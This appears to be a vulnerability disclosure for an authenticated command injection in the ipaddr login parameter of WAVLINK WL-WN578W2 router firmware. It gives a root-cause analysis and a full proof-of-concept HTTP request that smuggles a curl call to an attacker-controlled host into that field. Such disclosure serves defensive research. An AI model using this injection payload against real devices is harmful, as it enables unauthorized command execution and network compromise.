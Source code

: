 # WAVLINK WL-WN578W2 M78W2\_V221110 Command Injection in Login Module

PS:



1.  Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device (WAVLINK WL-WN578W2) for accurate vulnerability verification.

2.  This command injection vulnerability requires **authenticated access**. The `password` parameter uses a dynamic encryption method (value changes with requests/logins), so attackers must first obtain valid credentials or a captured encrypted `password` to exploit the vulnerability.

## Overview

A command injection vulnerability exists in the login module of WAVLINK WL-WN578W2 (firmware version: M78W2\_V221110). The vulnerability resides in the `ftext` function (entry point) and `sub_401340` function (core login logic) within the `login.cgi` file, which processes the `ipaddr` parameter without input sanitization. When submitting a POST request to the `/cgi-bin/adm.cgi` (a program for handling login requests on the device) endpoint with the `page=login` action, authenticated attackers can inject arbitrary system commands via the `ipaddr` parameter. This enables unauthorized execution of system commands, access to sensitive device information, or full compromise of the device.



![Vulnerability Overview Screenshot](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Vendor Website**: [https://www.wavlink.com/](https://www.wavlink.com/) (official website)

*   **Product**: WAVLINK WL-WN578W2

*   **Firmware Version**: M78W2\_V221110 (Software version: M78W2\_V221110)

*   **Firmware Download**: Available via WAVLINK official website or device web management interface

*   **Affected Endpoint**: `/cgi-bin/adm.cgi` (POST method, a program for processing device login requests)

*   **Vulnerable Code**:


    *   `sub_401340` function in `login.cgi` (constructs and executes system commands)

*   **Vulnerability Type**: Command Injection

*   **CVE ID**: Pending

*   **Impact**:

1.  Execute arbitrary system commands on the device;

2.  Read sensitive files (e.g., device configuration, stored credentials);

3.  Modify device settings or plant malicious scripts;

4.  Pivot to internal networks (if the device acts as a gateway)

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability stems from improper input validation in the device’s login processing workflow. The `ipaddr` parameter—controlled by the user—is directly concatenated into a system command without filtering special characters, leading to command injection. Below is the detailed code flow and root cause analysis:

#### 1. Request Entry & Input Parsing (`ftext` Function)

The `ftext` function is the entry point for handling login-related requests, with key execution steps:



*   **Referer Check**: First calls `sub_403EDC` to verify the `HTTP_REFERER` header (to prevent cross-origin request forgery), but this does not block subsequent command injection.

*   **Request Body Reading**: Retrieves the `CONTENT_LENGTH` header to determine the size of the POST request body, allocates memory via `malloc`, and reads the entire request body into a buffer (`v6`) using `fgets`.

*   **Parameter Routing**: Parses the `page` parameter from the request body via `sub_4036B4` (a custom parameter-parsing function). When `page=login` (indicating a login action), the function invokes `sub_401340(v6, 0x400000)` to process core login logic, passing the full request body (containing `ipaddr`, `username`, `password`, etc.) to `sub_401340`.

#### 2. Core Login Logic & Command Injection (`sub_401340` Function)

The `sub_401340` function handles credential verification and post-login configuration, and contains the vulnerable code segment:



*   **Parameter Parsing**: Extracts the `ipaddr` parameter from the input buffer (passed by `ftext`) using `sub_4036B4("ipaddr", a1, 0)`, and stores the parsed value in the `v9` variable.

*   **Credential Verification**: Compares the encrypted `password` parameter from the request with the device’s stored credentials (retrieved via `wlink_uci_get_value`). Only after successful verification does the function proceed to the command construction step.

*   **Vulnerable Command Construction**: After passing credential checks, the function constructs a system command using `sprintf` and executes it via `system`


*   **Root Cause**: The `ipaddr` parameter (`v9`) is not filtered for command delimiters (e.g., `;` for command separation, `&&` for logical AND, `|` for pipe, `#` for comment). Attackers can use these delimiters to "break out" of the original `applogin.sh`` del` command context and append arbitrary malicious commands.



![Disassembly Snippet 1: Vulnerable Code Path](./imgs/2.png)



![Disassembly Snippet 2: Command Construction Flow](./imgs/3.png)

## Proof of Concept (PoC)

### PoC: Inject `curl` Command to Verify Execution

This PoC uses the `ipaddr` parameter to inject a `curl` command, which sends a request to an attacker-controlled server—proving successful command execution. A **valid encrypted **`password` (captured via legitimate login) is required.

#### Full PoC HTTP Request

visit /login.shtml

```
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 300
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

newUI=1&page=login&username=admin&langChange=0&ipaddr=%3A%3Affff%3A192.168.10.154;curl http://192.168.10.154:1234#&login_page=login.shtml&homepage=main.shtml&sysinitpage=sysinit.shtml&wizardpage=wizard.shtml&hostname=192.168.10.1&key=M55373357&password=a870e4ba57ee340c2c29f6e7dbd17abb&lang_select=cn
```

#### PoC Execution Results



*   **Failure (Wrong Password Hash)**: If the `password` parameter uses an invalid/incorrect encrypted hash, the device rejects the login request before reaching the command execution step. No `curl` request is sent to the attacker’s server, and the PoC fails.



![PoC Result: Wrong Password Hash (Failure)](./imgs/4.png)



*   **Success (Right Password Hash)**: If the `password` parameter uses a valid encrypted hash, the device passes credential verification, executes the injected `curl` command, and the attacker’s server records the request.



![PoC Result: Right Password Hash (Success)](./imgs/5.png)




